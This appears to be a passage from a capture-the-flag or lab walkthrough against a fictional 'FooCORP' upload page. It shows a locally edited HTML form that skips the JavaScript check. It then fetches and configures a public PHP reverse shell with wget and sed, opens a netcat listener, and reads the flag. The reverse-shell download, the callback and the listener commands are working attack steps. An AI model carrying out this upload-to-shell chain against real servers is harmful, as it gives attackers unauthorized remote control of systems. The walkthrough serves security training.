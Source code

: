 ![](../../../.gitbook/assets/image%20%2810%29.png)

To disable JS, copy file locally, and modify to:

```markup
<html><body style="background: black; color: white;">
<center><div style="border: 1px yellow double">
<br /><br />
<form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
<br />Select file to upload:
<input type="file" name="fileToUpload" id="fileToUpload">
<input type="submit" value="Upload" name="submit">
</form>
<br /><br />
</div></center/>
<hr /><br />
<center>&copy; FooCORP 2019</center>
<body></html>
```

Download, modify and upload to your local webpage this reverse shell while you listen with `nc -lnvp 1234` in your machine: 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sed -i 's/127.0.0.1/172.16.64.10/' php-payload.php
```

In your netcat:

```text
$ cat ./var/www/html/flag.txt
Congratulations, you got this!
```

